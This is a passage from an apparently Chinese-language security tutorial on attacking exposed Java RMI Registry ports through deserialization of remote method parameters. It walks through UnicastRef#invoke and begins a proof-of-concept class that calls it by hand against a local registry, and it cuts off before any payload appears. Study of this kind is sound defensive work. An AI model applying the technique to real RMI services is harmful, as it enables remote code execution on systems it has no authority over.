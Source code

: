 **Client端**接收返回值后也将会返回值`return`回调用端

*UnicastRef*

```java
public Object invoke(Remote obj,
                     Method method,
                     Object[] params,
                     long opnum){
    .....
    //发送RMI请求
    call.executeCall();

    //接受Server端返回数据
    Class<?> rtype = method.getReturnType();
    if (rtype == void.class)
        return null;
    ObjectInput in = call.getInputStream();
    //反序列化返回值
    Object returnValue = unmarshalValue(rtype, in);
    return returnValue;
}
```

至此一个基本的RMI调用流程就是这样，我们需要先对RMI的流程有所了解之后，才方便后续漏洞的理解。

攻击一个暴露的 RMI Registry 端口的方式，最常见的是在 *远程对象通信* 利用RMI处理远程对象时打反序列化。其次还有利用JDK低版本在 *服务查询阶段* 的缺陷打反序列化的，这部分 [这篇文章](https://www.anquanke.com/post/id/197829) 讲的挺清楚了，本文不再赘述。

RMI处理远程对象时打反序列化
===============

**调试的JDK版本: 11.0.3**

**攻击方式：**

看完前文的流程，不难发现Server端在 *远程对象通信* 时，会**反序列化**Client端发送的**方法参数**，而且没有限制。我们是否能控制发送的**方法参数**呢？根据前文分析Client端发起 *远程对象通信* 的代码可发现，主要是靠 `UnicastRef#invoke()`发起请求的。我们尝试手工调用这个方法:

*TestPoc*

```java
package org.example;

import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.rmi.Naming;
import java.rmi.server.RemoteObject;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.HashMap;
import sun.rmi.server.UnicastRef;

public class TestPoc
{
    public static void main( String[] args ) throws Exception
    {
        //路由远程对象，拿到Server端返回的Remote
        MyService lookup = (MyService)Naming.lookup("rmi://127.0.0.1:1099/myService");

        //由于`UnicastRef#invoke()`需要四个形参，其类型分别为
        //Remote 可以直接用`lookup`
        //Method 反射接口，拿到调用方法的Method对象即可
        //Object[] 调用方法的参数，也就是让Server端反序列化的payload
        //long 调用方法的Hash，需要手工调用`RemoteObjectInvocationHandler#getMethodHash()`获得

        //第一步，获取UnicastRef，利用已有的UnicastRef实例调用invoke()方法
        Class<Proxy> proxyClass = Proxy.class;
```